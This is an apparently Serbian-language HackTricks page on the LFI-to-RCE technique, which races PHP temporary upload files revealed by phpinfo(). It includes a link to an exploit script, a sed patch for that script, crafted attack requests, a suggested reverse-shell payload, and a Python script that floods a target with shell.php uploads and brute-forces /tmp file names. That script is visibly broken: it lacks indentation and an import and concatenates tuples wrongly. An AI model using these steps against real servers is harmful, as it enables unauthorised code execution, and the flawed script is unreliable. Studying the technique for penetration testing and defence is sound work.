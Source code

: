 # LFI2RCE via phpinfo()

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Da biste iskoristili ovu ranjivost, potrebno vam je: **LFI ranjivost, stranica na kojoj se prikazuje phpinfo(), "file\_uploads = on" i server mora moći da piše u "/tmp" direktorijum.**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

Da biste ispravili eksploit (promenite **=>** u **=>**). To možete uraditi:

```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```

Morate promeniti i **payload** na početku eksploatacije (na primer, za php-rev-shell), **REQ1** (ovo bi trebalo da upućuje na phpinfo stranicu i trebalo bi da uključuje padding, na primer: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), i **LFIREQ** (ovo bi trebalo da upućuje na LFI ranjivost, na primer: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Proverite dvostruki "%" prilikom iskorišćavanja null karaktera)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

#### Teorija

Ako su dozvoljeni uploadi u PHP-u i pokušate da otpremite datoteku, ta datoteka se čuva u privremenoj direktoriji dok server ne završi obradu zahteva, a zatim se ta privremena datoteka briše.

Zatim, ako ste pronašli LFI ranjivost na web serveru, možete pokušati da pogodite ime privremene datoteke koja je kreirana i iskoristiti RCE pristupajući privremenoj datoteci pre nego što bude obrisana.

Na **Windows**-u, datoteke se obično čuvaju u **C:\Windows\temp\php**

Na **Linux**-u, ime datoteke obično bude **slučajno** i smeštena je u **/tmp**. Pošto je ime slučajno, potrebno je **izvući negde ime privremene datoteke** i pristupiti joj pre nego što bude obrisana. To se može uraditi čitanjem vrednosti **promenljive $\_FILES** unutar sadržaja funkcije "**phpconfig()**".

**phpinfo()**

**PHP** koristi bafer od **4096B** i kada je **pun**, on se **šalje klijentu**. Zatim klijent može **poslati** **mnogo velikih zahteva** (koristeći velike zaglavlja) **otpremajući php** reverse **shell**, čekati da se vrati **prvi deo phpinfo()** (gde je ime privremene datoteke) i pokušati **pristupiti privremenoj datoteci** pre nego što php server obriše datoteku iskorišćavajući LFI ranjivost.

**Python skripta za pokušaj brute force imena (ako je dužina = 6)**

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

